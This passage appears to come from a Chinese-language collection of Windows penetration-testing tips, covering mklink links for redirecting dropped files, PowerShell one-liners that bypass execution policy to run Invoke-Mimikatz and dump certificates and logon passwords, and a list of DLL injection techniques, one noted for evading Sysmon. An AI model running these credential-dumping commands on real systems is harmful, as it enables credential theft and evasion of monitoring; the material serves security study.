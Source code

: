 
### Tips 50 mklink

用于创建符号链接，可理解为快捷方式

创建目录c:\test\1，指向c:\temp，可使用以下操作：

(1) 使用/D参数命令创建一个链接：

mklink /D "c:\test\1" "c:\Temp"

(2) 使用/J参数命令创建一个联接：

mklink /J "c:\test\1" "c:\Temp"

差异：

使用/D参数创建的链接，文件属性多了"快捷方式"

使用/J不需要管理员权限

使用/D需要管理员权限

**应用：**

更改释放文件的路径 

---

### Tips 51 powershell在执行脚本时传入参数

```
powershell -executionpolicy bypass -Command "Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -DumpCerts"

powershell -executionpolicy bypass -Command "Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command ""log ""privilege::debug"" ""sekurlsa::logonpasswords"""""
```

---

### Tips 52 dll注入方法

#### 1、APC

参考：

[《通过APC实现Dll注入——绕过Sysmon监控》](https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87APC%E5%AE%9E%E7%8E%B0Dll%E6%B3%A8%E5%85%A5-%E7%BB%95%E8%BF%87Sysmon%E7%9B%91%E6%8E%A7/)

#### 2、process hollowing

参考：

[《傀儡进程的实现与检测》](https://3gstudent.github.io/3gstudent.github.io/%E5%82%80%E5%84%A1%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AE%9E%E7%8E%B0%E4%B8%8E%E6%A3%80%E6%B5%8B/)

#### 3、Process Doppelgänging
